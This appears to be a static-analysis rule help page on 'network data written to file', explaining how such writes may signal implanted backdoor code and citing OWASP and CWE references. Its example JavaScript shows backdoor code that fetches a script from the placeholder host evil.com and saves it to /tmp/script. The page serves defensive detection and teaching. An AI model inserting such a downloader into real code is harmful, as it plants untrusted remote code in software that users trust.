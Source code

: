 # Network data written to file
Storing user-controlled data on the local file system without further validation allows arbitrary file upload, and may be an indication of malicious backdoor code that has been implanted into an otherwise trusted code base.


## Recommendation
Examine the highlighted code closely to ensure that it is behaving as intended.


## Example
The following example shows backdoor code that downloads data from the URL `https://evil.com/script`, and stores it in the local file `/tmp/script`.


```javascript
var https = require("https");
var fs = require("fs");

https.get('https://evil.com/script', res => {
  res.on("data", d => {
    fs.writeFileSync("/tmp/script", d)
  })
});

```
Other parts of the program might then assume that since `/tmp/script` is a local file its contents can be trusted, while in fact they are obtained from an untrusted remote source.


## References
* OWASP: [Trojan Horse](https://www.owasp.org/index.php/Trojan_Horse).
* OWASP: [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload).
* Common Weakness Enumeration: [CWE-912](https://cwe.mitre.org/data/definitions/912.html).
* Common Weakness Enumeration: [CWE-434](https://cwe.mitre.org/data/definitions/434.html).
